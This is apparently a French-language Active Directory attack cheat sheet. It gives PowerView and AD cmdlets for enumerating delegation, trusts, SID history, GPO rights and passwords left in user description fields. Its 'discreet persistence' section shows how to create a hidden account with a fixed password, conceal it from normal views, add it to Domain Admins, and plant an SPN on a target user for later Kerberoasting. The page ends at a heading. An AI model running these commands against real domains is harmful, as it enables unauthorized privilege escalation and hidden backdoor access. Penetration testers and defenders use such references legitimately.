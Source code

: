## "Filouteries" et techniques avancées

### Abus de la délégation
```powershell
# Identifier les systèmes avec délégation non contrainte
Get-DomainComputer -Unconstrained | select name,dnshostname

# Identifier les systèmes avec délégation contrainte
Get-DomainComputer -TrustedToAuth | select name,msds-allowedtodelegateto
```
### Exploitation des attributs utilisateur
```powershell
# Vérifier les descriptions d'utilisateurs (souvent contiennent des mots de passe)
Get-DomainUser -LDAPFilter "(description=*)" | select samaccountname,description

# Vérifier les notes des utilisateurs
Get-DomainUser -LDAPFilter "(info=*)" | select samaccountname,info
```
### Exploitation des relations d'approbation (Trusts)
```powershell
# Énumérer les relations d'approbation
Get-DomainTrust
Get-ForestTrust

# Exploitation de SID History
Get-DomainUser -Identity * | Where-Object {$_.sidhistory -ne $null}
```
### Exploitation des GPOs
```powershell
# Énumérer les GPOs
Get-DomainGPO | select displayname,gpcfilesyspath

# Vérifier les droits sur les GPOs
Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=domain,DC=local" -ResolveGUIDs | Where-Object {$_.ObjectAceType -eq "Group-Policy-Container"}
```
## Techniques de persistance discrètes

### Création d'un utilisateur caché
```powershell
# Créer un utilisateur et le cacher
New-ADUser -Name "Support_Svc" -SamAccountName "Support_Svc" -AccountPassword (ConvertTo-SecureString "Password123!" -AsPlainText -Force) -Enabled $true
Set-ADObject -Identity "CN=Support_Svc,CN=Users,DC=domain,DC=local" -Replace @{showInAdvancedViewOnly="TRUE"}

# Ajouter l'utilisateur à un groupe privilégié
Add-ADGroupMember -Identity "Domain Admins" -Members "Support_Svc"
```
### Création d'un SPN pour Kerberoasting futur
```powershell
# Ajouter un SPN à un compte existant
Set-DomainObject -Identity "utilisateur_cible" -Set @{serviceprincipalname='nonstandard/LEGIT'}
```
## Points à noter et vérifier systématiquement
